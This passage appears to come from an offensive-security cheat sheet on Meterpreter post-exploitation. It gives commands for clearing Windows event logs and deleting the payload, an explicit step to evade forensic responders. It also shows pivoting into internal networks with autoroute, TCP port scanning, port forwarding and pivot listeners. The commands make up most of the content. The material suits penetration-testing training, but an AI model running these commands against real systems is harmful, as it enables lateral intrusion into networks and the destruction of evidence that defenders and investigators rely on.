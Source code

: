 They can be accesed from the Event Viewer (eventvwr). 

Any forensic responder will check the event logs after a compromise has occured. Therefore, it's very
important that we know how to clear our tracks.

Let's see how to do this via Metasploit modules.

```bash
meterpreter > clearev
# this will clear the logs. the only entry remaining will be a log saying "logs have been cleared"
# not useful.
# if the payload doesn't delete itself or fails to do so, we have to do it by hand.
meterpreter > rm good_file.exe
```

<a id=7.2.9></a>
### Pivoting

Pivoting is a post exploitation technique that consists on compromising hosts through an already compromised target
to attack internal systems that we couldn't access before.

Meterpreter grants us the ability to route networks very easily to the internal network of a compromised host.
Thus, we can see the internal targets, scan them and exploit them.

```bash
meterpreter > sysinfo
meterpreter > ipconfig
# take the internal network IP address of the machine.
meterpreter > run autoroute -s [TARGET_CIDR]
# you can use the post/multi/manage/autoroute module, in fact the "run autoroute" command
# is deprecated. 
meterpreter > bg
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS [INTERNAL_TARGET/INTERNAL_TARGETS/INTERNAL_NETWORK]
msf6 auxiliary(scanner/portscan/tcp) > set PORTS [PORT/PORT_RANGE]
msf6 auxiliary(scanner/portscan/tcp) > run
msf6 auxiliary(scanner/portscan/tcp) > sessions 1
meterpreter > portfwd add -l [LOCAL_PORT] -p [INTERNAL_PORT] [TARGET]
# from here on you can start checking the shtuff and exploit the world.
meterpreter >  pivot add -t pipe -n [ANY_NAME] -p [PLATFORM] -a [ARCH] -l [IP_TO_LISTEN_ON]
# instead of using a bind_tcp shell, which is what we would usually do if we wanted to pivot
# from the attacking machine to an internal host, we can set up a pivot point on the "router"
# machine and listen there. ONLY FOR KOOL K1DS!!!!
```

<a id=7.3></a>
## Linux Post-exploitation

In this section we'll see some of the Linux post-exploitation modules and techniques. The objectives of doing
post-exploitation on a Linux machine are the following:
